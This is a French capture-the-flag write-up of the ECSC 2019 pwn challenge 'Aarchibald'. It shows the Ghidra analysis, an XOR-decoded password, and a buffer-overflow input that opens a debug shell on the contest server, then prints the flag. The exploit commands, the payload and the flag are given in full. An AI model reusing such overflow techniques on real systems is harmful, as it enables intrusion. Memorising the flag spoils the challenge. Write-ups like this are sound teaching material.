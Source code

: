**Aarchibald WUP from ECSC 2019** 

Ahhhh, un peu de PWN pour changer, aujourd'hui on va attaquer un binaire qui était plutôt basique.

```
l0uky@parrot: ~ $ nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
coucou  
Sorry, that's not the correct password.
Bye.
```

Tout d'abord ouvrons notre binaire avec Ghidra et regardons la fonction "sym.main" (ou juste main)

<img src="https://i.imgur.com/qv3X6MT.png">

On voit tout d'abord que nous avons une condition de verification du password.

L'entrée utilisateur est comparée à `eCfSDFwEeAYDr` et est xorified + 0x36.

Bon déjà on remarque qu'il n'y a pas de verification du buffer, donc ça sera sûrement un buffer overflow.

Essayons donc d'entrer un payload basique.

```
l0uky@parrot: ~ $ (echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"; cat) | nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
Sorry, that's not the correct password.
Bye.
```


J'ai peut être pas mis assez de "a"

```
l0uky@parrot: ~ $ python -c 'print("A" * 120)' | nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
Sorry, that's not the correct password.
Bye.
```

Rien à y faire, il n'a pas l'air de vouloir, essayons donc de trouver le mot de passe.

```
>>> "".join([chr(i ^ 0x36) for i in b"eCfSDFwEeAYDr"])
'SuPerpAsSworD'
```

On a donc le pass déchiffré. Entrons le.

```
l0uky@parrot: ~ $ (echo "SuPerpAsSworD"; cat) | nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
Welcome back!
ls 
```

Très bien, on a réussis à entré; mais aucun shell n'a pop, testons donc d'ajouter un payload à côté.

SuPerpAsSworDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa


```
l0uky@parrot: ~ $ nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
SuPerpAsSworDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome back!
Entering debug mode
ls
aarchibald
flag
run.sh
cat flag
ECSC{32fb7ccc57121703b0a9a401e269e774c561b2bc}
```

Et voilà, nous avons donc le flag ***ECSC{32fb7ccc57121703b0a9a401e269e774c561b2bc}***
